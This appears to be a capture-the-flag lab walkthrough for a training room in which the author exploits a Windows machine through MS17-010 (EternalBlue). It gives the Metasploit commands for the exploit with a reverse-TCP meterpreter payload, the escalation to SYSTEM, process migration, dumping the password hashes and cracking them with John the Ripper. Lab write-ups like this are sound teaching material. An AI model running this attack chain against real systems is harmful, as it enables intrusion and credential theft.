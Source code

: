 # Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
 
'nmap -sC -sV 10.10.104.20': 3
 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 
'nmap --script=vuln 10.10.104.20': ms17_010
# Task 2
 1. Start Metasploit
 
'msfconsole'
 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'
 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
 
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20
 4. Run the exploit!
 
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.
# Task 3

 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter
 2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
 
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION
 3. Set the required option, you may need to list all of the sessions to find your target here.
 
'sessions' lists our sessions and their IDs, now 'set SESSION 1'
 4. Run! If this doesn't work, try completing the exploit from the previous task once more.
 
'exploit'
 5. Once the meterpreter shell conversion completes, select that session for use.
 
'sessions -i 1'
 6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
 
'getsystem', 'shell', 'whoami'
 7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.
 8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
 
'migrate 3604' worked!
# Task 4
 1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 
'hashdump': Jon
 2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.
In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'
This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.
# Task 5
I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system
I typed 'cd /' and then 'cat flag1.txt' for the first flag.
I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.
Now where is flag2? The hint is supposed to point us to where windows stores its passwords.
With some googling 'cd /windows/system32/config' and there's flag 2!
